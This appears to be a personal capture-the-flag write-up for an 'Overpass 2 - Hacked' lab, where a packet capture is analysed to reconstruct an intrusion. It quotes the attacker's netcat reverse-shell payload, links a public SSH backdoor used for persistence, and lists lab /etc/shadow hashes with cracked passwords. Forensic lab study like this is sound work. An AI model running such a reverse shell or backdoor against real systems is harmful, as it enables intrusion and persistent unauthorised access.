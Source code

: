 ## Overpass 2 - Hacked

import it in wireshark

![[Pasted image 20210529001434.png]]

Shell uploaded via /development/

![[Pasted image 20210529001620.png]]

follow the tcp dump 

![[Pasted image 20210529002202.png]]

payload `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`

passwd : whenevernoteartinstant

![[Pasted image 20210529002503.png]]

backdoor persistence: https://github.com/NinjaJc01/ssh-backdoor

![[Pasted image 20210529002638.png]]

/etc/shadow
![[Pasted image 20210529003040.png]]


```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/

paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0

szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/

bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0

muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.
```


![[Pasted image 20210529004214.png]]
![[Pasted image 20210529004334.png]]
![[Pasted image 20210529004431.png]]
![[Pasted image 20210529004459.png]]


```
paradox:secuirty3
szymex:abcd123
bee:secret12
muirland:1qaz2wsx
```

the hash and salt from https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go

the hacker's hash
![[Pasted image 20210529005134.png]]

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05
```
cracking the hash (hashcat mode 1710) : november16

![[Pasted image 20210529010115.png]]


